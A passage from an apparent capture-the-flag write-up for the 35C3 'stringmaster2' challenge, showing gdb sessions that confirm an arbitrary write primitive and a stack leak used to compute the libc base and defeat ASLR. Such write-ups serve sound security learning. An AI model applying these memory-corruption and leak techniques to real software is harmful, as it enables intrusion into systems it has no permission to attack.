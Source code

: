 ```
```
This should have changed the data at `0x7fffffffe418` from `0x0000555555556671` to `0x0000414141416671`. Let's check that:
```
gdb-peda$ x/gx 0x7fffffffe418
0x7fffffffe418:	0x0000414141416671
```
Yes, it worked! This means we have a an arbitrary write primitive for memory after string1.

Another thing I noticed is that we get an information leak if we enter `print` after entering `replace` with a char that is not in String1

```
gdb-peda$ c
...
> print
gijugolusq??????printeqfAAAA??0??V???fUUUU0RUUUUP?????eUUUU0XI??X????h????eUUUU?6V?j??0RUUUUP?????6$R???ԃ6?4?.??h????h?????w???0RUUUUP????ZRUUUUH?????????????????????????????????"?????????????????????????????????????+????J????Z????b?????????????????????????????????????????????????!???????d@@UUUU8	p???    0RUUUU
                                                                                                                                      ?
??y??????????????w?0??V????                                                                                                            ?
                           `??A86_64/vagrant/35c3/pwn/stringmaster2/stringmaster2LANG=en_US.UTF-8LC_CTYPE=en_US.UTF-
```
As you can see, the leak starts with String1 and ends with some environment variables which are stored on the stack.
This indicates that we are leaking some stack data and this can be very handy to defeat ASLR and PIC.
Since the leak starts with String1, it can only come from one of two locations: the first occurence of String1
or the second. And a comparison of the area after the two occurences and the leak reveals that the the
stack after the second is being leaked. So now we know what we leak but we still don't know what we can do with this.
What we need is some value on the stack that has a static offset from the libc base. So as long as we are
able to leak this address from the stack and we know the offset into libc we can just
subtract the offset from the leak and get the base of libc.
I did this with trail and error. First I used the `vmmap` command in gdb to get the base of libc.
Then I took one address from the leak that was close to the libc base and subtracted the base from it. I saved the result (let's call this `c`) and reran the program.
All I needed to do now is use the address thats at the same offset as the one that I used before, subtract
`c` from it and check if the resulting value is equal to the base address of libc. I did that with a bunch
of addresses from the leak until I found one at `0x7e` bytes after String1 that apparently is
always exactly `0x20830` bytes larger than the base of libc.
Now we have a way of calculating the base of libc but this works only for our local libc.
To port this to work for the remote libc we first need to
find out what's located `0x20830` after the base of our local libc.
```
~$ ldd stringmaster2|grep libc
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f52b73d2000)
~$ objdump -d /lib/x86_64-linux-gnu/libc.so.6|grep -A 5 20830:
  20830:	89 c7                	mov    %eax,%edi
  20832:	e8 f9 97 01 00       	callq  3a030 <exit@@GLIBC_2.2.5>
  20837:	31 d2                	xor    %edx,%edx
  20839:	e9 3b ff ff ff       	jmpq   20779 <__libc_start_main@@GLIBC_2.2.5+0x39>
  2083e:	48 8b 05 cb 8e 3a 00 	mov    0x3a8ecb(%rip),%rax        # 3c9710 <argp_program_version_hook@@GLIBC_2.2.5+0x1b0>
  20845:	48 c1 c8 11          	ror    $0x11,%rax
```